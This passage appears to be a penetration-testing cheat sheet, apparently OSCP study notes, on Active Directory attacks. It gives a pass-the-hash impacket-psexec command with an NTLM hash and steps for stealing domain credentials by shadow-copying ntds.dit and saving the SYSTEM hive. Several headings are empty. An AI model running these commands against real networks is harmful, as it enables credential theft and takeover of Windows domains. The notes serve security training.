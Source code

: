 #### PsExec:

Prerequisites: The user that authenticates to the target machine needs to be part of the Administrators local group. In addition, the `ADMIN$` share must be available and `File and Printer Sharing` has to be turned on.

```
impacket-psexec oscp.exam/administrator@192.168.130.102 -hashes :ba85f4e1f47633ebd44894de679fabb4

```

## Overpass the Hash

## Pass the Ticket

# Persistence

## Golden Ticket



## Shadow Ticket

Take a snapshot of drive C: :
```
vshadow.exe -nw -p  C:
```

Copy whe whole AD database:
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

Extract the content of ntds.dit and save the SYSTEM hive:
```
reg.exe save hklm\system c:\system.bak
```

Now use secretsdump
